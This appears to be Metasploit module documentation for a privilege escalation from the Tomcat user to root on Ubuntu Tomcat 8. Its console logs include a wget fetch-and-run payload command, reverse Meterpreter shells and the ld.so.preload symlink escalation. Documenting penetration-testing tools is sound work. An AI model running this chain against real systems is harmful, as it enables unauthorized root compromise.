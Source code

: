 ## Vulnerable Application

Tomcat (6, 7, 8) packages provided by default repositories on Debian-based
distributions (including Debian, Ubuntu etc.) provide a vulnerable
tomcat init script that allows local attackers who have already gained access
to the tomcat account (for example, by exploiting an RCE vulnerability
in a java web application hosted on Tomcat, uploading a webshell etc.) to
escalate their privileges from tomcat user to root and fully compromise the
target system.

Tested against Tomcat 8.0.32-1ubuntu1.1 on Ubuntu 16.04

### Install

This will isntall Tomcat 8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04 using the build from
[launchpad](https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282)

We also change the `tomcat8` user's shell to `/bin/bash` to make setting up the priv-esc
easier.

```
sudo apt-get install libecj-java build-essential
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/libtomcat8-java_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8-common_8.0.32-1ubuntu1.1_all.deb
sudo dpkg -i *tomcat*.deb
sudo sed -i 's|/bin/false|/bin/bash|g' /etc/passwd
```

You can now `su tomcat8` and get your starter shell.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell as the `tomcat` user (may be version dependent like `tomcat8`)
4. Do: `use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc`
5. Do: `set session #`
6. Do: `run`
7. You should get a root.

## Options

### CATALINA

Location of catalina.out file. Defaults to `/var/log/tomcat8/catalina.out`.

## Scenarios

### Tomcat8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04

Initial shell

```
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/TymOdj7T0Wc
[*] Server started.
[*] Run the following command on the target machine:
wget -qO NaXlMbmV --no-check-certificate http://1.1.1.1:8080/TymOdj7T0Wc; chmod +x NaXlMbmV; ./NaXlMbmV& disown
[*] 2.2.2.2    web_delivery - Delivering Payload (207 bytes)
[*] Sending stage (1017704 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59862) at 2023-01-16 07:23:48 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: tomcat8
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 16.04 (Linux 4.4.0-134-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable app version detected: 8.0.32.pre.1ubuntu1.1
[*] Creating backup of /var/log/tomcat8/catalina.out
[+] Original /var/log/tomcat8/catalina.out backed up to /root/.msf4/loot/20230116072430_default_2.2.2.2_varlogtomcat8_824428.txt
[*] Uploading Payload to /tmp/.SG5N9O
[*] Writing '/tmp/.SG5N9O' (250 bytes) ...
[*] Compiling exploit stub: /tmp/.INpf7Gw.so
[*] Deleting /var/log/tomcat8/catalina.out
[*] Creating symlink from /etc/ld.so.preload to /var/log/tomcat8/catalina.out
[+] Waiting 1800 on tomcat to re-open the logs aka a Tomcat service restart
[-] /etc/ld.so.preload not found, checking in 10 seconds
[-] /etc/ld.so.preload not found, checking in 10 seconds
[*] injecting /tmp/.INpf7Gw.so into /etc/ld.so.preload
[*] Escalating payload privileges via SUID binary (sudo)
[*] Executing payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 2.2.2.2
[+] Deleted /tmp/.SG5N9O
[+] Deleted /tmp/.INpf7Gw.so
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:59866) at 2023-01-16 07:24:55 -0500

meterpreter > getuid
Server username: root
```